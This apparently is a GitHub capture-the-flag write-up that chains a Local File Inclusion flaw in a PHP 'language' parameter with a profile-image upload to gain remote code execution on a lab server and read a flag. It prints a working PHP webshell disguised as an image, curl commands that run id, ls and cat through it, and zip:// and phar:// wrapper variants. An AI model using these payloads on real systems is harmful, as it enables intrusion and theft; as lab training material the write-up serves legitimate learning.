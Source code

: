 # LFI and Webshell Exploit Write-Up (Target: 94.237.58.135:51980)
This repository documents the exploitation of a Local File Inclusion (LFI) vulnerability combined with a file upload on the web server at `94.237.58.135:51980` to achieve remote code execution (RCE) and locate a flag in a Capture The Flag (CTF) challenge.

## Overview
The target web application at `http://94.237.58.135:51980/index.php` has an LFI vulnerability in the language parameter, allowing inclusion of local PHP files. By uploading a malicious PHP script (`shell.gif`) to `./profile_images/`, I executed commands and found the flag in `/2f40d853e2d4768d87da1c81772bae0a.txt`.

## Prerequisites
A Linux machine with curl.

A malicious PHP script (shell.gif).

Network access to the target (94.237.58.135:51980).

## Steps
### Step 1: Identify Local File Inclusion (LFI)

I noticed the `index.php` page used a language parameter to include files (`index.php?language=en.php`). I tested for LFI by attempting to include files from the server’s filesystem.

```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif"
```
The server included files from `./profile_images/`, suggesting an LFI vulnerability. I realized I could upload a PHP script to this directory and include it.

### Step 2: Create and Upload the Malicious PHP Script

I created a PHP webshell to execute system commands:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.gif
```
This created a clean PHP webshell that runs commands via the `cmd` parameter.

I accessed the /settings.php page, which had a profile image upload feature.

I uploaded `shell.gif` to `./profile_images/` through the web interface, placing it at `http://94.237.58.135:51980/profile_images/shell.gif`

![image](https://github.com/user-attachments/assets/53fa8646-73f1-4d9d-9931-75c58fcb158e)

### Step 3: Verify Remote Code Execution

I tested the LFI vulnerability by including `shell.gif` and running the `id` command.
```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/092f7162-58ec-42e9-95f1-289a4db74c1e)

This confirmed RCE as the `www-data` user, proving my webshell worked.

### Step 4: Explore the File System

I listed the root directory to find the flag’s location.

```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=ls%20/"
```
![image](https://github.com/user-attachments/assets/be40b260-a7fd-47e2-ab37-cc3503b15c45)

### Step 5: Locate the Flag
```bash
curl -s "http://94.237.58.135:51980/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt"
```
I got the flag and completed the challenge!

## Alternative Methods

## 1. Zip Upload

Utilize PHP's `zip://` wrapper to execute code stored within a ZIP archive.

## Steps
### Step 1: Create a PHP web shell script and compress it into a ZIP archive
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
### Steps 2: Upload the ZIP archive (shell.jpg)

### Step 3: Include and execute commands via the wrapper
```bash
http://94.237.58.135:51980/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
### Notes:

The ZIP wrapper is not enabled by default, so this method may not always work.

Some upload forms may detect ZIP archives despite their disguised extensions.

## 2. Phar Upload

Use PHP's `phar://` wrapper to execute code embedded in a PHAR archive.

## Steps
### Step 1: Write a PHP script to create a PHAR archive containing a web shell

```bash
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
### Step 2: Compile the script into a PHAR file and rename it as `shell.jpg`
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
### step 3: Upload the PHAR file and include it using the `phar://` wrapper
```bash
http://94.237.58.135:51980/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
### Notes:

Ensure that PHAR support is enabled in PHP configurations.
